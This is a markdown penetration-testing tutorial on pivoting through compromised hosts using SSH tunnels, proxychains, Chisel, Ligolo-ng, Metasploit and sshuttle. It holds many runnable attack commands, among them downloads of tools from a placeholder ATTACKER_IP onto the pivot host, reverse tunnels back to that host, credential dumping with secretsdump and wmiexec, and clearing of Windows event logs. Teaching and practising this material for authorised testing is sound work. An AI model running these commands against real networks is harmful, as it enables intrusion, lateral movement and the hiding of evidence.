

# Pivoting
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## What Is Pivoting?

**Pivoting** is the technique of using a compromised host as a relay point to reach, scan, and attack other systems on internal network segments that are not directly accessible from your attacker machine. It transforms a single foothold into a launching pad for the entire internal network.

In most real-world networks, your initial compromise gives you access to a **DMZ** or **perimeter host** — a system that has both an internet-facing interface and an internal network interface. The juicy targets (domain controllers, databases, developer workstations) are on the internal network and have no direct route to the internet.

Pivoting solves this by routing your attack traffic *through* the compromised host.

```
Internet                 DMZ                  Internal LAN
────────────           ────────────          ───────────────────
Attacker               Web Server            Domain Controller
10.0.0.1      ──────▶  10.10.0.5   ──────▶   192.168.1.10
              (initial  eth0: 10.10.0.5       Database Server
               access)  eth1: 192.168.1.5      192.168.1.20
                        (pivot host)            Dev Workstations
                                                192.168.1.50-60
```

### Core Pivoting Concepts

| Term | Definition |
|------|-----------|
| **Pivot host** | The compromised system through which you route your attack traffic |
| **Jump host** | A system used as an intermediate hop (similar to pivot, more focused on SSH) |
| **Target network** | The internal network segment reachable through the pivot host |
| **Double pivot** | Routing through two pivot hosts to reach a third network segment |
| **SOCKS proxy** | A generic TCP/UDP proxy protocol used to tunnel arbitrary connections |
| **Port forwarding** | Mapping a local port to a remote service through an intermediate host |
| **Tunnel** | A persistent bidirectional channel through which traffic is routed |

> **Note:** Pivoting significantly increases network traffic through the compromised host. In environments with **EDR** or **NDR** (Network Detection and Response), anomalous traffic patterns — such as a web server making outbound SMB connections — will trigger alerts. Plan your pivot scope carefully.

---

## Pivoting Network Topology Diagram



---

## SSH Port Forwarding

SSH's built-in tunnelling capabilities are the most commonly available and widely supported pivot mechanism — if you have SSH credentials or a key to the pivot host.

### Local Port Forwarding (`-L`)

**Local port forwarding** binds a port on your **local (attacker) machine** and forwards connections to a destination through the SSH server.

```
Usage: ssh -L LOCAL_PORT:DEST_HOST:DEST_PORT user@PIVOT_HOST
```

```bash
# Forward attacker's localhost:8080 → PIVOT → 192.168.1.20:80
ssh -L 8080:192.168.1.20:80 user@10.10.0.5

# After this, on your attacker machine:
curl http://127.0.0.1:8080/         # accesses 192.168.1.20:80 through pivot
firefox http://127.0.0.1:8080/      # browse internal web app

# Forward to the domain controller's SMB port
ssh -L 4445:192.168.1.10:445 user@10.10.0.5
# Then:
smbclient //127.0.0.1:4445/SYSVOL -U Administrator

# Forward to internal RDP
ssh -L 3390:192.168.1.50:3389 user@10.10.0.5
# Then:
xfreerdp /v:127.0.0.1:3390 /u:Administrator /p:'Password123!'

# Forward multiple ports in one command
ssh -L 8080:192.168.1.20:80 -L 3390:192.168.1.10:3389 -L 5432:192.168.1.20:5432 user@10.10.0.5

# Run in background (no shell, persistent tunnel)
ssh -N -f -L 8080:192.168.1.20:80 user@10.10.0.5
# -N: don't execute a remote command
# -f: go to background
```

**Diagram — Local Port Forwarding:**

```
Attacker                  Pivot Host               Internal Target
localhost:8080  ─────────▶ 10.10.0.5  ─────────▶  192.168.1.20:80
(your browser)             (SSH server)             (internal web app)
```

### Remote Port Forwarding (`-R`)

**Remote port forwarding** binds a port on the **remote (pivot) machine** and forwards connections back to your attacker machine. This is useful when you cannot initiate connections **to** the pivot, but the pivot can connect **to you**.

```bash
# Bind 8080 on the PIVOT HOST, forward it back to attacker's localhost:8080
ssh -R 8080:localhost:8080 user@10.10.0.5

# Use case: Pivot host cannot reach your C2, but can reach SSH
# You want the pivot host to accept connections and relay them to you
ssh -R 4444:localhost:4444 user@10.10.0.5
# Now anyone who connects to PIVOT:4444 gets forwarded to your local port 4444

# Expose a local service to the remote host's LAN
# Makes your local web server accessible on the pivot host's network
ssh -R 0.0.0.0:9090:localhost:80 user@10.10.0.5
# Requires: GatewayPorts yes in /etc/ssh/sshd_config on pivot
```

**Diagram — Remote Port Forwarding:**

```
Internal Host            Pivot Host              Attacker
192.168.1.X  ─────────▶  pivot:4444  ─────────▶  localhost:4444
(connects to              (remote-              (your listener
 pivot's port)             bound port)           receives it)
```

### Dynamic Port Forwarding / SOCKS Proxy (`-D`)

**Dynamic port forwarding** turns your SSH connection into a **SOCKS proxy**, allowing you to route any TCP connection through the pivot — not just a single port.

```bash
# Create SOCKS5 proxy on attacker's localhost:1080
ssh -D 1080 user@10.10.0.5

# Background + no-shell version
ssh -N -f -D 1080 user@10.10.0.5

# Now configure proxychains to use the SOCKS proxy
cat /etc/proxychains4.conf
# Ensure last line is:
# socks5 127.0.0.1 1080

# Use proxychains to route tools through the pivot
proxychains nmap -sV -p 22,80,443,445,3389 192.168.1.0/24
proxychains curl http://192.168.1.20/
proxychains smbclient //192.168.1.10/SYSVOL -U Administrator
proxychains python3 secretsdump.py Administrator:Password@192.168.1.10
proxychains xfreerdp /v:192.168.1.50 /u:user /p:pass /cert-ignore

# Firefox with proxychains (use FoxyProxy extension instead for full browser)
proxychains firefox 2>/dev/null &
```

### SSH Jump Hosts (`-J`)

The `-J` flag enables **chained SSH connections** — SSH through one or more intermediary hosts to reach a final destination.

```bash
# Connect to internal_target via pivot host as jump host
ssh -J user@10.10.0.5 user@192.168.1.20

# Double jump: attacker → pivot1 → pivot2 → target
ssh -J user@10.10.0.5,user@192.168.1.30 user@172.16.0.10

# Use jump host with port forwarding
ssh -J user@10.10.0.5 -L 8080:localhost:80 user@192.168.1.20

# SSH config for jump hosts (cleaner approach)
cat >> ~/.ssh/config << 'EOF'
Host pivot
    HostName 10.10.0.5
    User user
    IdentityFile ~/.ssh/id_rsa

Host internal-dc
    HostName 192.168.1.10
    User Administrator
    ProxyJump pivot
    IdentityFile ~/.ssh/dc_key
EOF

# Now just:
ssh internal-dc
```

### SSH Full Reference Table

| Flag | Full Form | Usage |
|------|-----------|-------|
| `-L port:host:port` | Local forward | Bind local port, forward to remote host via SSH server |
| `-R port:host:port` | Remote forward | Bind port on SSH server, forward to local host |
| `-D port` | Dynamic / SOCKS | Create SOCKS proxy on local port |
| `-J host` | Jump / ProxyJump | Chain through one or more jump hosts |
| `-N` | No remote command | Keep connection open without starting a shell |
| `-f` | Background | Fork to background after authentication |
| `-C` | Compression | Compress traffic (reduces bandwidth, adds CPU) |
| `-q` | Quiet | Suppress warning and diagnostic messages |
| `-o StrictHostKeyChecking=no` | Accept any host key | Avoid "are you sure?" prompts (use with caution) |
| `-o UserKnownHostsFile=/dev/null` | No host key storage | Don't persist pivot host key to known_hosts |

---

## Proxychains Configuration

```bash
# Primary config file locations
cat /etc/proxychains4.conf   # newer systems
cat /etc/proxychains.conf    # older systems

# Key configuration options:
# dynamic_chain   — use proxies in order, skip failed ones
# strict_chain    — use proxies in order, fail if any unavailable
# random_chain    — use proxies in random order
# proxy_dns       — resolve DNS through the proxy (important for stealth)

# Example configuration for SOCKS5 through SSH dynamic forward:
cat > /etc/proxychains4.conf << 'EOF'
dynamic_chain
proxy_dns
quiet_mode
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
EOF

# Chaining multiple proxies (goes through each in order):
cat > /etc/proxychains4.conf << 'EOF'
strict_chain
proxy_dns

[ProxyList]
socks5 127.0.0.1 1080   # SSH dynamic forward to pivot 1
socks5 127.0.0.1 1081   # SSH dynamic forward through pivot 1 to pivot 2
EOF

# Usage examples
proxychains nmap -sV --open -p 22,80,443,445,1433,3306,3389 192.168.1.0/24
proxychains -q nmap -sV -p 80 192.168.1.20   # quiet mode, suppress proxychains output
proxychains curl http://192.168.1.20/admin/
proxychains ssh user@192.168.1.30   # SSH through the proxy to another host
proxychains python3 wmiexec.py Administrator:Password@192.168.1.10
```

> **Note:** `proxychains` cannot proxy UDP or ICMP — **nmap SYN scans and ping sweeps will not work**. Use `-sT` (TCP connect scan) with nmap and replace ICMP host discovery with TCP-based discovery (`-Pn -sT`).

---

## Chisel

**Chisel** is a fast TCP/UDP tunnelling tool written in Go. It operates over HTTP/WebSocket, making it firewall-friendly and able to bypass proxies that block raw TCP. It is the **most commonly used pivot tool** in real engagements today.

```bash
# === SETUP ===

# Download Chisel (attacker — match architecture to pivot host OS)
wget https://github.com/jpillora/chisel/releases/latest/download/chisel_linux_amd64.gz
gunzip chisel_linux_amd64.gz
mv chisel_linux_amd64 chisel
chmod +x chisel

# Transfer to pivot host
# Via Python HTTP server:
python3 -m http.server 8080
# On pivot:
wget http://ATTACKER_IP:8080/chisel -O /tmp/chisel && chmod +x /tmp/chisel

# Windows pivot — use chisel_windows_amd64.exe
certutil.exe -urlcache -split -f "http://ATTACKER_IP:8080/chisel.exe" C:\Windows\Temp\chisel.exe

# === SOCKS REVERSE PROXY (most common usage) ===

# Step 1: Start Chisel server on attacker machine
./chisel server -p 8000 --reverse
# --reverse allows clients to create reverse tunnels

# Step 2: Connect from pivot host (creates reverse SOCKS5 proxy)
/tmp/chisel client ATTACKER_IP:8000 R:socks
# This creates a SOCKS5 proxy on attacker's localhost:1080

# Step 3: Use with proxychains (SOCKS5 127.0.0.1 1080 in proxychains.conf)
proxychains nmap -sT -p 80,443,445,3389 192.168.1.0/24

# === PORT FORWARDING (specific port) ===

# Forward specific port from internal network to attacker
# Attacker listens on 3390, traffic forwarded to 192.168.1.10:3389 via pivot
./chisel server -p 8000 --reverse   # on attacker

/tmp/chisel client ATTACKER_IP:8000 R:3390:192.168.1.10:3389   # on pivot
# Now connect: xfreerdp /v:127.0.0.1:3390 /u:Admin /p:pass

# Multiple port forwards in one client command
/tmp/chisel client ATTACKER_IP:8000 R:socks R:4445:192.168.1.10:445 R:3390:192.168.1.50:3389

# === FORWARD (non-reverse) TUNNELS ===

# Forward traffic from pivot host to internal host
./chisel server -p 8000   # on attacker
/tmp/chisel client ATTACKER_IP:8000 9090:192.168.1.20:80   # on pivot
# Accesses 192.168.1.20:80 via attacker's localhost:9090

# === AUTHENTICATION (prevent others from using your Chisel server) ===

./chisel server -p 8000 --reverse --auth user:password
/tmp/chisel client --auth user:password ATTACKER_IP:8000 R:socks

# === OVER TLS (encrypts the HTTP tunnel) ===

./chisel server -p 8000 --reverse --tls-domain your.domain.com
/tmp/chisel client --tls-skip-verify ATTACKER_IP:8000 R:socks
```

**Chisel operation diagram:**

```
Attacker (chisel server)          Pivot Host (chisel client)
Port 8000: chisel server  ◀────── chisel client → ATTACKER_IP:8000
Port 1080: SOCKS5 proxy   ◀────── R:socks (reverse SOCKS)
                                   │
                                   ▼ can reach internal network
                          192.168.1.0/24
```

---

## Ligolo-ng

**Ligolo-ng** is a modern pivot tool that creates a virtual network interface on your attacker machine, routing traffic seamlessly without proxychains. It supports **full network-level routing** rather than just SOCKS.

```bash
# === SETUP ===

# Download ligolo-ng (attacker gets proxy, pivot gets agent)
# Proxy = runs on attacker
# Agent = runs on pivot host
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/proxy_linux_amd64.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/latest/download/agent_linux_amd64.tar.gz

tar xzf proxy_linux_amd64.tar.gz
tar xzf agent_linux_amd64.tar.gz

# Windows agent for Windows pivot hosts
# agent_windows_amd64.exe

# === ATTACKER SETUP ===

# Create tun interface (required for network-level routing)
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Start ligolo-ng proxy (listens for agent connections)
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
# -selfcert: generate self-signed cert
# -laddr: listening address for agents

# === PIVOT HOST — Deploy Agent ===

# Linux pivot
./agent -connect ATTACKER_IP:11601 -ignore-cert

# Windows pivot
agent.exe -connect ATTACKER_IP:11601 -ignore-cert

# === ESTABLISH TUNNEL (in ligolo-ng proxy console) ===

# In the proxy console that appears:
ligolo-ng » session                    # list connected agents
ligolo-ng » session 1                  # select agent
ligolo-ng [agent 192.168.1.5] » ifconfig   # show agent's interfaces
ligolo-ng [agent 192.168.1.5] » start      # start the tunnel

# On attacker — add route to internal network through the ligolo interface
sudo ip route add 192.168.1.0/24 dev ligolo

# Now you can directly reach internal hosts WITHOUT proxychains!
nmap -sV -p 22,80,443 192.168.1.0/24      # direct scan, no proxychains needed
curl http://192.168.1.20/
ssh user@192.168.1.30

# === LISTENER (for reverse shells from internal hosts) ===
# In ligolo-ng console — add listener on pivot to forward to attacker
ligolo-ng [session] » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444
# Now internal hosts can connect to PIVOT:4444 which forwards to your listener

# === DOUBLE PIVOT with ligolo-ng ===
# On the second pivot (192.168.1.30), deploy another agent
# In ligolo-ng, create a listener on pivot1 to relay agent connections:
ligolo-ng [session1] » listener_add --addr 0.0.0.0:11602 --to 127.0.0.1:11601
# Second agent connects to pivot1:11602 which relays to your proxy
./agent -connect 192.168.1.5:11602 -ignore-cert   # from pivot2
```

**Why Ligolo-ng over Chisel:**

| Feature | Chisel | Ligolo-ng |
|---------|--------|-----------|
| Protocol | HTTP/WebSocket | TLS (custom) |
| Access method | SOCKS proxy (proxychains) | Virtual TUN interface (native routing) |
| Tool compatibility | Tools must be proxychains-compatible | All tools work natively |
| UDP support | Limited | Yes (via TUN interface) |
| ICMP/ping | No | Yes |
| nmap scan type | TCP connect (-sT) only | SYN scan (-sS) works |
| Complexity | Simple | Slightly more setup |
| Performance | Good | Excellent |

---

## Metasploit Routing

If your initial access uses Meterpreter, Metasploit has built-in routing capabilities.

```bash
# In Metasploit — assume you have a Meterpreter session (ID: 1)

# Add a route to an internal subnet through the session
msf6 > route add 192.168.1.0/24 1
msf6 > route add 10.10.10.0/24 1
msf6 > route print       # verify routes

# Remove a route
msf6 > route remove 192.168.1.0/24 1

# Set up SOCKS proxy through Meterpreter session (use with proxychains)
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
# Starts SOCKS5 on localhost:1080 — use with proxychains

# Port forwarding in Meterpreter
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.20
# Forwards attacker's localhost:8080 to 192.168.1.20:80

meterpreter > portfwd add -l 3390 -p 3389 -r 192.168.1.10
# Access internal RDP: xfreerdp /v:127.0.0.1:3390 ...

meterpreter > portfwd list    # show all forwards
meterpreter > portfwd delete -l 8080   # remove a forward

# Autoroute (automatically add routes for all subnets the pivot can see)
meterpreter > run post/multi/manage/autoroute
msf6 > use post/multi/manage/autoroute
msf6 > set session 1
msf6 > run
```

---

## Double Pivot Technique

A **double pivot** extends your reach through two compromised hosts to access a third network segment — common in environments with network segmentation.

```
Attacker → Pivot1 (DMZ) → Pivot2 (Internal LAN) → Restricted Network
10.0.0.1   10.10.0.5/192.168.1.5   192.168.1.30/172.16.0.2   172.16.0.0/24
```

### Double Pivot with Chisel

```bash
# Step 1: Establish first pivot (attacker ↔ Pivot1)
# On attacker:
./chisel server -p 8000 --reverse

# On Pivot1:
./chisel client ATTACKER_IP:8000 R:1080:socks   # SOCKS on attacker:1080

# Step 2: Set up proxychains to use first SOCKS proxy
# /etc/proxychains4.conf → socks5 127.0.0.1 1080

# Step 3: From attacker, through proxychains, transfer chisel to Pivot2
proxychains scp chisel user@192.168.1.30:/tmp/chisel

# Step 4: Start second chisel server on Pivot1 (accessible through first SOCKS)
proxychains ssh user@192.168.1.5 "/tmp/chisel server -p 9000 --reverse &"
# Or: in a new session via the SOCKS proxy

# Step 5: From Pivot2, connect to Pivot1's chisel server
proxychains ssh user@192.168.1.30 "/tmp/chisel client 192.168.1.5:9000 R:1081:socks &"
# Creates SOCKS proxy on Pivot1:1081 which is accessible through first proxy

# Step 6: Add second proxy to proxychains config
echo "socks5 192.168.1.5 1081" >> /etc/proxychains4.conf

# Step 7: Now use proxychains to reach the restricted network
proxychains nmap -sT -p 22,80,443 172.16.0.0/24
```

### Double Pivot with SSH

```bash
# Method: Nested SSH tunnels

# Step 1: SSH dynamic forward to Pivot1
ssh -N -f -D 1080 user@10.10.0.5

# Step 2: Through proxychains (SOCKS:1080), create dynamic forward via Pivot1 to Pivot2
proxychains ssh -N -f -D 1081 user@192.168.1.30

# Step 3: Configure proxychains to chain both proxies
cat > /etc/proxychains4.conf << 'EOF'
strict_chain
proxy_dns
[ProxyList]
socks5 127.0.0.1 1080
socks5 127.0.0.1 1081
EOF

# Step 4: Now proxychains routes through both pivots
proxychains nmap -sT -p 80,443,445 172.16.0.0/24
```

---

## sshuttle — Transparent Proxy

**sshuttle** creates a transparent VPN-like tunnel over SSH without requiring root on the pivot host (only on the attacker).

```bash
# Install on attacker
pip install sshuttle

# Route all traffic for 192.168.1.0/24 through pivot
sshuttle -r user@10.10.0.5 192.168.1.0/24

# Multiple subnets
sshuttle -r user@10.10.0.5 192.168.1.0/24 172.16.0.0/24

# With SSH key
sshuttle -r user@10.10.0.5 --ssh-cmd "ssh -i /path/to/key" 192.168.1.0/24

# Route all traffic (use carefully — may break your connection)
sshuttle -r user@10.10.0.5 0.0.0.0/0

# After sshuttle is running, NO proxychains needed — use tools directly
nmap -sV -p 22,80,443 192.168.1.0/24   # works directly
curl http://192.168.1.20/               # works directly
```

---

## Tool Comparison Reference

| Tool | Setup Complexity | Proxychains Needed | UDP Support | OS Support | Best Use Case |
|------|-----------------|-------------------|-------------|------------|--------------|
| SSH -D | Low | Yes | No | All | Quick SOCKS when SSH access exists |
| SSH -L | Low | No (specific ports) | No | All | Single port forwarding |
| sshuttle | Low | No | No | Linux/Mac | Transparent tunnel when SSH available |
| Chisel | Medium | Yes | Limited | All | Firewall-friendly, no SSH needed |
| Ligolo-ng | Medium | No | Yes | All | Full network access, complex engagements |
| MSF autoroute | Low (if using MSF) | Yes (with socks module) | No | All | Already using Metasploit |

---

## Operational Security for Pivoting

```bash
# Clean up after pivoting — remove chisel, agents
rm /tmp/chisel
rm /tmp/agent

# On Windows pivot
del C:\Windows\Temp\chisel.exe
del C:\Windows\Temp\agent.exe

# Kill background processes
# Find and kill the chisel/ligolo agent process
ps aux | grep chisel
kill <PID>

# Remove SSH known_hosts entries for pivot host (if using -o UserKnownHostsFile=/dev/null won't help)
ssh-keygen -R 10.10.0.5

# Check if your pivot activity created log entries
cat /var/log/auth.log | grep "Accepted\|Connection from"
journalctl -u ssh --since "1 hour ago"

# On Windows — clear event logs (requires admin, leaves evidence of clearing)
wevtutil cl Security
wevtutil cl System
```

> **Warning:** Clearing logs is a **destructive** action and will itself appear as an event in SIEM systems. Never clear logs without explicit authorisation in your rules of engagement. In most assessments, you should leave logs intact and simply document your activity.

---

## Key Terms

- **Pivot**: Using a compromised host to route attack traffic toward otherwise unreachable network segments
- **SOCKS proxy**: A protocol-agnostic TCP/UDP proxy; SOCKS5 adds authentication and UDP support
- **proxychains**: A Linux tool that forces TCP connections from any application through one or more SOCKS/HTTP proxies
- **Chisel**: A fast HTTP/WebSocket-based TCP tunnelling tool commonly used for pivot tunnels
- **Ligolo-ng**: A TUN-interface-based pivot tool enabling full native network routing without proxychains
- **Port forwarding**: Mapping a port on one host to a service on another through a relay
- **Local port forward (`-L`)**: Binds a port locally and forwards connections to a remote host through the SSH tunnel
- **Remote port forward (`-R`)**: Binds a port on the SSH server and forwards connections back to the local host
- **Dynamic port forward (`-D`)**: Creates a SOCKS proxy on the local host via the SSH connection
- **Jump host (`-J`)**: An SSH intermediary host used to reach a final destination
- **Double pivot**: A technique chaining two pivot hosts to reach a third, otherwise unreachable, network segment
- **sshuttle**: A transparent proxy/VPN tool that routes subnet traffic over an SSH connection without proxychains
- **autoroute**: Metasploit's built-in mechanism to route traffic through an active Meterpreter session

---

*See also: `post-exploitation-overview.md`, `lateral-movement.md`, `system-enumeration.md`*
